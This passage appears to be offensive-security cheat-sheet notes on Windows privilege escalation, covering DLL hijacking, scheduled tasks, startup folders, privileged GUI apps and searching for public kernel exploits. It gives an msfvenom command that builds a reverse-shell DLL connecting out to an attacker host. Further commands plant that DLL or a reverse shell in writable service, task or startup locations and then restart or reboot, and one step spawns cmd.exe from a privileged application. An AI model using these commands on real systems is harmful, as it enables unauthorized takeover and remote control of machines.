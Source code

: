 Using Process Monitor, identify all DLLs loaded by the selected app as well as detect missing ones, and try to replace one with a malicious file.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack_box> LPORT=<lport> -f dll -o reverse.dll
```

Transfer the malicious DLL to the path and restart the service.

```shell
sc stop <service>
sc start <service>
```

## Scheduled Tasks

```shell
# list tasks
schtasks /query /fo LIST /v
Get-ScheduledTask | Select-Object TaskName, TaskPath, State

# use icacls in the path to check permissions
icacls <path>

# upload the malicious file and wait for execution
```

## Startup Apps

!!! info
    For this to work, the system needs to be **restarted**

```shell
# startup applications can be found here
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 

# check if the folder is writable and transfer a reverse shell to it, then reboot the system
shutdown /r /t 0
```

## Insecure GUI Apps

```shell
# check the privileged applications that are running from "TaskManager"
# open one of them, and from the file menu click 'Open' and enter the following:
file://c:/windows/system32/cmd.exe
```

## Public Exploits and Security Updates

> https://github.com/bitsadmin/wesng

> https://github.com/SecWiki/windows-kernel-exploits

```shell
# enumerate the system
systeminfo
wmic qfe list
Get-HotFix | Sort-Object -Property InstalledOn -Descending
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
systeminfo | findstr /B /C:"KB"

# find a public exploit
searchsploit 'params'

# Windows Exploit Suggester ng
pipx install wesng
```